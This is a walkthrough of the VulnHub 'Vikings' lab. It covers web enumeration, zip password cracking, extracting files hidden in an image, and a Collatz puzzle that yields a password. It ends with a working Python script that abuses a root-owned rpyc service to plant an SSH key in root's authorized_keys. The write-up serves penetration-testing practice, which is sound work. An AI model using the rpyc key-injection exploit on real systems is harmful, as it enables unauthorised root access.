 # [Vikings](https://www.vulnhub.com/entry/vikings-1,741/)

An `nmap` scan reveals SSH on port 22 and a web server on port 80. Looking at the web site on port 80, we have directory listing on the landing page with a single entry `/site/`. Navigating there, we just have a static HTML page. With nothing special on the page, we run `gobuster`.

```sh
$ gobuster dir -u "http://192.168.56.103/site/" -w ~/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt -r

/css                  (Status: 200) [Size: 1376]
/images               (Status: 200) [Size: 1360]
/index.html           (Status: 200) [Size: 4419]
/js                   (Status: 200) [Size: 951]
/war.txt              (Status: 200) [Size: 13]
```

We have the file `war.txt` whose content is `/war-is-over`. Going to `/war-is-over`, we get what looks like a long base64-encoded string, which we decode to get an archive which we can try extracting with `7z x`. However, the archive is password-protected so we crack it with `john`.

```sh
zip2john war.zip > war.john
john war.john --wordlist=~/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

We should then get the password "ragnarok123" with which we can extract the archive. The extract file `king` is a JPEG image with a lot of EXIF data. Running `binwalk` reveals some more ZIP data which we can extract.

```sh
$ binwalk -e king

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             JPEG image data, EXIF standard
12            0xC             TIFF image data, big-endian, offset of first image directory: 8
1429567       0x15D03F        Zip archive data, at least v2.0 to extract, compressed size: 53, uncompressed size: 92, name: user
1429740       0x15D0EC        End of Zip archive, footer length: 22
```

The extracted directory `_king.extracted/` has a ZIP archive and a text file `user` with the following contents.

```
//FamousBoatbuilder_floki@vikings
//f@m0usboatbuilde7
```

These are credentials. We can now log into SSH as `floki` with the password `f@m0usboatbuilde7`.

In floki's home, we have `.viminfo`. Checking the contents, we see an interesting python file: `/usr/local/bin/rpyc_classic.py`. We currently can't run it, however, so we make note of it for later.

Also in floki's home, we have `readme.txt`.

```
_______________________________________________________________________Floki-Creation____________________________________________________________________________________________________


I am the famous boat builder Floki. We raided Paris this with our all might yet we failed. We don't know where Ragnar is after the war. He is in so grief right now. I want to apologise to him.
Because it was I who was leading all the Vikings. I need to find him. He can be anywhere.
I need to create this `boat` to find Ragnar
```

The note tells us there's someone named "Ragnar", which we note as a possible username. We also have the file `boat`.

```
#Printable chars are your ally.
#num = 29th prime-number.
collatz-conjecture(num)
```

It's telling to print out printable characters among the numbers we get from running Collatz conjecture on the 29th prime-number, 109. I then wrote a python script to do just that.

```python
#!/usr/bin/python3

n = 109
chars = [n]
while n != 1:
    if n % 2:
        n = 3 * n + 1
    else:
        n = int(n / 2)
    if n <= 255:
        chars.append(n)

out = "".join([chr(i) for i in chars])
print(out)
```

Running it would print out some non-printable characters so we filter it with `strings`.

```sh
./num.py | strings -n 1 | tr -d '\n'
mR)|>^/Gky[gz=\.F#j5P(
```

With that, we have the password for the user "ragnar" and can SSH in as them.

We have a shell, but it's not bash (check `$SHELL`) so we upgrade with a simple `bash`.

Going back to the file `/usr/local/bin/rpyc_classic.py` from earlier, trying to run it gives us an error.

```sh
ragnar@vikings:~$ /usr/local/bin/rpyc_classic.py
[snip]
OSError: [Errno 98] Address already in use
```

It seems it's trying to bind to a port already being used. Checking listening ports ...


```sh
ragnar@vikings:~$ ss -tlnp
State         Recv-Q         Send-Q                    Local Address:Port                    Peer Address:Port
LISTEN        0              128                             0.0.0.0:80                           0.0.0.0:*
LISTEN        0              128                       127.0.0.53%lo:53                           0.0.0.0:*
LISTEN        0              128                             0.0.0.0:22                           0.0.0.0:*
LISTEN        0              128                           127.0.0.1:18812                        0.0.0.0:*
LISTEN        0              128                           127.0.0.1:39487                        0.0.0.0:*
```

... we have a couple of high ports with unknown functions. Looking at running processes for `rpyc_classic.py` ...

```sh
ragnar@vikings:~$ ps aux | grep rpyc_classic.py
root      1003  0.0  0.0   4636   864 ?        Ss   06:23   0:00 /bin/sh -c python3 /usr/local/bin/rpyc_classic.py
root      1005  0.0  2.0 133012 21176 ?        Sl   06:23   0:00 python3 /usr/local/bin/rpyc_classic.py
```

We find a couple of instances of `rpyc_classic.py` run by root. Looking at [the docs for `rpyc_classic.py`](https://rpyc.readthedocs.io/en/latest/docs/classic.html), we find that the default port for `rpyc_classic.py` is 18812 which we saw listening earlier.

Looking around the documentation for `rpyc`, I found the [`teleport` function](https://rpyc.readthedocs.io/en/latest/tutorial/tut1.html#the-teleport-method) to be useful since it allows us to execute functions on the server. With that, I wrote a script on the machine.


```python
import rpyc

def shell():
    import os
    os.system("mkdir /root/.ssh")
    os.system("echo 'YOUR_ID_RSA.pub' >> /root/.ssh/authorized_keys")

c = rpyc.classic.connect("localhost")
f = c.teleport(shell)
f()
```

Running this, our SSH key should be in root's `authorized_keys` and we can then SSH in as root.
